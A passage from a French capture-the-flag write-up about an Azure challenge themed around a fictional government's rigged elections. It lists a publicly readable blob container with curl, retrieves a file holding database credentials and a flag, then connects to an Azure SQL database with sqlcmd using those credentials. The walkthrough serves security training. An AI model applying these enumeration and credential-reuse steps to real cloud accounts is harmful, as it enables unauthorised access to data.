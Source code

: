 ```bash
# Lister les fichiers du container elections
curl "https://monacogovernement.blob.core.windows.net/elections/?restype=container&comp=list"
```

Cette commande nous révèle les fichiers présents dans le container, notamment `elections.txt`.

#### Étape 6: Accès au fichier compromettant
Nous accédons directement au fichier découvert:

```bash
# Récupérer le contenu du fichier
curl "https://monacogovernement.blob.core.windows.net/elections/elections.txt"
```

Le fichier contient (source: [https://monacogovernement.blob.core.windows.net/elections/elections.txt](https://monacogovernement.blob.core.windows.net/elections/elections.txt)):
```
our database credentials for our rigged elections are : monacosql:wElOvECLOUD! flag-st0r4g3-accounts-are-hard
```

**Flag Part 1:** `flag-st0r4g3-accounts-are-hard`

---

## Part 2: Accès à la Base de Données

### Contexte
Avec les credentials de la base de données trouvés dans le storage account, nous devons maintenant accéder à la database pour continuer notre investigation.

### Objectif
Se connecter à la base de données Azure SQL et récupérer les informations stockées.

### Solution

#### Étape 1: Identification de la database
Les bases de données Azure SQL suivent le pattern: `{nom}.database.windows.net`

En suivant le même pattern que le storage account, nous testons:
`monacogovernement.database.windows.net`

```bash
# Test de connectivité à la database
nslookup monacogovernement.database.windows.net
```

#### Étape 2: Connexion à la database
Avec les credentials `monacosql:wElOvECLOUD!` trouvés dans le storage account:

```bash
# Utiliser sqlcmd ou Azure CLI
sqlcmd -S monacogovernement.database.windows.net -U monacosql -P 'wElOvECLOUD!' -d elections
```
